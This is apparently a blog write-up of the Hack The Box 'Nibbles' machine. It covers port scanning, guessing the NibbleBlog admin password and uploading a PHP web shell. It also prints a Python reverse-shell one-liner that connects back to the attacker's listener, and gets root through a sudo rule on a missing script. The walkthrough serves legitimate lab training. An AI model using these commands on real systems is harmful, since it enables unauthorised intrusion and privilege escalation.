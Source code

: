 ```yaml
---
title: Hack The Box - Nibbles (Without Metasploit)
date: 2021-01-09 22:56:00 +0800
categories: [hackthebox]
tags: [linux, php, sudo]
---
```


![](/assets/images/nibbles.png){:height="414px" width="615px"}

# Configuration

The operating system that I will be using to tackle this machine is a Kali Linux VM.

What I learnt from other writeups is that it was a good habit to map a domain name to the machine's IP address so as that it will be easier to remember. This can done by appending a line to `/etc/hosts`.

```bash
$ echo "10.10.10.75 nibbles.htb" | sudo tee -a /etc/hosts
```

# Reconnaissance

```bash 
$ nmap -sT -sV -sC -Pn -p- nibbles.htb 
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-01-09 06:34 EST
Nmap scan report for nibbles.htb (10.10.10.75)
Host is up (0.014s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.81 seconds
```

# Enumeration (1)

## Port 80 `Apache httpd 2.4.18 ((Ubuntu))`

![](/assets/images/nibbles1.png)

There was only these 2 words on the index page. However in the `HTML` source code, we see something.

![](/assets/images/nibbles2.png)

By going to `/nibbleblog/`, there is a blog. 

![](/assets/images/nibbles3.png)

On the bottom right, we see what web app is powering this blog.

![](/assets/images/nibbles4.png)

Searching online, we can find the [Github repo](https://github.com/dignajar/nibbleblog) containing the source code of this web app. By going to `/nibbleblog/update.php`, the version of the blog is shown.

![](/assets/images/nibbles5.png)

Searching online, we see that there is an [article](https://packetstormsecurity.com/files/133425/NibbleBlog-4.0.3-Shell-Upload.html) on exploiting this version and uploading webshells to this web app.

However, to do so, we will need to login via `/admin.php`. According to the `/nibbleblog/content/private/config.xml` link shown on the `/nibbleblog/update.php` page, we see that there might be a user called `admin`.

![](/assets/images/nibbles6.png)

Now we will just need to guess the password. Brute-forcing with `hydra` causes us to be blacklisted and unable to access the blog so we will need to be careful and gentle with our password guessing. After much guessing, the password turns out to be the name of this box `nibbles`.

![](/assets/images/nibbles7.png)

# Exploitation (1)

According to the [article](https://packetstormsecurity.com/files/133425/NibbleBlog-4.0.3-Shell-Upload.html), we need to go under `Plugins` and scroll down to the `My image` plugin. There will be a `Configure` button, which brings us to a page where we can upload our web shell.

![](/assets/images/nibbles8.png)

I uploaded the [`simple-backdoor.php`](https://github.com/tennc/webshell/blob/master/fuzzdb-webshell/php/simple-backdoor.php) and errors were shown.

![](/assets/images/nibbles9.png)

Despite that, our shell was successfully saved to `/nibbleblog/content/private/plugins/my_image/image.php`.

Browsing to `/nibbleblog/content/private/plugins/my_image/image.php?cmd=whoami` returns `nibbler`, hence we have achieved code execution on the machine.

Upgrading this to a more stable shell is easy by browsing to :

```
http://nibbles.htb/nibbleblog/content/private/plugins/my_image/image.php?cmd=python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket. SOCK_STREAM);s.connect(("10.10.XX.XX",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```

which spawns a reverse shell connection to our `nc` listener that we setup beforehand.

```bash
$ sudo rlwrap nc -vlnp 1337
[sudo] password for kali: 
listening on [any] 1337 ...
connect to [10.10.XX.XX] from (UNKNOWN) [10.10.10.75] 43896
nibbler@Nibbles:/var/www/html/nibbleblog/content/private/plugins/my_image$ 
```

# user.txt

The user flag is located in `nibbler` home directory.

```bash
nibbler@Nibbles:/var/www/html/nibbleblog/content/private/plugins/my_image$ cat /home/nibbler/user.txt
3dc94d9843e9bc20d33bb5905d15a8b6
```

# Enumeration (2)

If we check `nibbler`'s `sudo` rights, we see that he can run a certain script as `root`!

```bash
nibbler@Nibbles:/home/nibbler$ sudo -l                     

Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
```

Checking the file revealed that this file doesn't exist! That means we can create a fake `monitor.sh` in `/home/nibbler/personal/stuff` which will spawn a shell as `root` when we execute it with `sudo`!

# Exploitation (2)

We simply echo `/bin/bash` into the `monitor.sh` file

```bash
nibbler@Nibbles:/home/nibbler$ mkdir -p personal/stuff 
nibbler@Nibbles:/home/nibbler$ echo "/bin/bash" > personal/stuff/monitor.sh
nibbler@Nibbles:/home/nibbler$ chmod 777 personal/stuff/monitor.sh
```

and execute `monitor.sh` with `sudo` and get a shell as `root`!

```bash
nibbler@Nibbles:/home/nibbler$ sudo /home/nibbler/personal/stuff/monitor.sh
root@Nibbles:/home/nibbler# id
uid=0(root) gid=0(root) groups=0(root)
```

# root.txt

The root flag is located at `/root` as always.

```bash
root@Nibbles:/home/nibbler# cat /root/root.txt
c5e3XXXXXXXXXXXXXXXXXXXXXXXXXXXX
```




### Rooted ! Thank you for reading and look forward for more writeups and articles !